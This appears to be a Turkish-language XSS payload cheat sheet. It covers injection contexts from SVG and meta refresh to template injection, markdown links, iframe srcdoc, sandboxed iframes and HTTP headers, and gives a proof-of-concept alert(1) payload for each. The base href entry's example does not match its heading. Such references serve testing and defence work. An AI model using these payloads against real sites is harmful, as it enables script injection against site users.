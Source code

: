 <h1>CONTEXTS</h1>
<br>

<h2>🔹 9. SVG / XML Context</h2>
<h4>SVG veya XML içeriğinde çalıştırma.</h4><br>

📌 Örnek:  
`<svg><circle onload="alert(1)"/></svg>`  
<br>
🎯 Exploit:  
```html
<svg/onload=alert(1)>
```
<br>



<h2>🔹 10. Meta Tag Context</h2>
<h4>HTML içindeki `meta` etiketiyle manipulasyon.</h4><br>

📌 Örnek:  
`<meta http-equiv="refresh" content="0;url=PAYLOAD">`  
<br>
🎯 Exploit:  
```html
javascript:alert(1)"
```
<br>



<h2>🔹 11. Base Href Context</h2>
<h4>Eğer base href="..." elementi kontrol ediliyorsa.</h4><br>

📌 Örnek:  
`<button onclick="PAYLOAD">Click me</button>`  
<br>
🎯 Exploit:  
```html
" onclick=alert(1) x="
```  
```js
alert(1)
``` 
<br>


<h2>🔹 12. Template Injection Context</h2>
<h4>Client-side templating sistemlerinde: Mustache, Handlebars, AngularJS, VueJS.</h4><br>

📌 Örnek:  
```html
<script type="text/template">
  Hello {{user}}
</script>
```
<br>

🎯 Exploit:  
```js
{{constructor.constructor("alert(1)")()}}
```
<br>



<h2>🔹 13. Markdown / BBCode Context</h2>
<h4>Input markdown olarak parse edilip HTML'ye dönüşür.</h4><br>

📌 Örnek:  
`[click](javascript:alert(1))`  
<br>
🎯 Exploit:  
```html
![img](javascript:alert(1))
```
<br>



<h2>🔹 14. Iframe Srcdoc Context</h2>
<h4>HTML içeriği iframe içine srcdoc olarak yazılır.</h4><br>

📌 Örnek:  
```document.body.innerHTML = `<iframe srcdoc="${userInput}">`;```  
veya  
`element.innerHTML = location.hash;`
<br>  
🎯 Exploit:  
```html
#<iframe srcdoc="<script>alert(1)</script>" sandbox="allow-scripts">
```
<br>



<h2>🔹 15. Sandboxed Context (Controlled via CSP / Sandbox attr)</h2>
<h4>iframe[sandbox], CSP gibi güvenlik kontrollerinin yanlış yapılandırılması sonucu ortaya çıkar.</h4><br>

📌 Örnek:  
`<iframe sandbox="allow-scripts" srcdoc="PAYLOAD"></iframe>`  
<br>
🎯 Exploit:  
```html
<iframe sandbox="allow-scripts" srcdoc="<script>alert(1)</script>"></iframe>
```
<br>



<h2>🔹 16. HTTP Header Context</h2>
<h4>Bazı XSS'ler response header içeriğiyle tetiklenir.</h4><br>

📌 Örnek:  
`Location: "PAYLOAD"`
<br>  
🎯 Exploit:  
```html
javascript:alert(1)
```
Ayrıca kontrol edilmesi gerekenler:  
`Refresh:` `Referer:` `Content-Security-Policy:` injection olabilir.
